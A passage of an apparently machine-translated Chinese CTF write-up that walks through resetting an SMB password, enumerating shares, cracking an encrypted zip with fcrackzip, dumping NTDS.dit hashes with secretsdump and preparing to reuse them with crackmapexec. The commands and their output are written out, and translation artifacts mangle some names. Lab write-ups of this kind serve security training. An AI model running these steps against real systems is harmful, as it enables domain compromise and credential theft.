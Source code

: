 **看来用户“***SBR adley***”**可以重置自己的密码。我们可以指定旧密码(即上面与 crackmapexec 一起使用的密码)和工具 **smbpasswd** 来重置用户密码。****

```
**smbpasswd -r 10.10.169.150 -U sbradleyOld SMB password:
New SMB password:
Retype new SMB password:
Password changed for user sbradley**
```

****我现在可以使用用户“***SBR adley***”**的新重置凭据来进一步枚举 SMB 共享。******

```
****smbmap -H 10.10.127.15 -u sbradley -p password

Disk                     Permissions     Comment
----                     -----------     -------
ADMIN$                   NO ACCESS       Remote Admin
C$                       NO ACCESS       Default share
IPC$                     READ ONLY       Remote IPC
NETLOGON                 READ ONLY       Logon server share 
SYSVOL                   READ ONLY       Logon server share 
trash                    **READ ONLY**       Files Pending for deletion****
```

******我看到我现在对名为 **trash** 的 SMB 共享拥有只读访问权限。查看共享的内容，我可以看到三个文件。******

```
**smbclient //10.10.127.15/trash -U sbradley 

smb: \> ls

chat_log_20210222143423.txt     A     1340  Thu Feb 25 19:29:05 2021
experiment_gone_wrong.zip       A 18927164  Tue Mar 16 06:02:20 2021
sbradley.txt                    A       37  Sat Feb 27 19:24:21 2021**
```

****查看“*chat _ log _ 20210222143423 . txt*”文件，可以看到**CVE-2020–1472**(即 ZeroLogon)被提及。用户" *sbradley* "似乎也制作了一个包含 **ntds.dit** 和 **SYSTEM.hive** 文件的加密 zip，然后管理员撤销了他们的 WinRM-Access。我用 **fcrackzip** 找到了带有“ *rockyou.txt* 单词表的加密 zip 文件的密码。****

```
**fcrackzip -u -D -p ~/rockyou.txt experiment_gone_wrong.zipPASSWORD FOUND!!!!: pw == electro......**
```

****我提取了 **ntds.dit** 和 **SYSTEM.hive** 文件，然后我使用了“***secrets dump . py***”来提取密码哈希。****

```
**sudo python3 secretsdump.py -system system.hive -ntds ntds.dit LOCAL**
```

****这给了我一个很长的潜在散列列表。我使用 **cut** 命令从"***secrets dump . py***"的输出中提取实际的散列。****

```
**cat hashes | cut -d ':' -f 4**
```

****接下来，我使用 **crackmapexec** 来为用户**lvert ova**识别散列。****
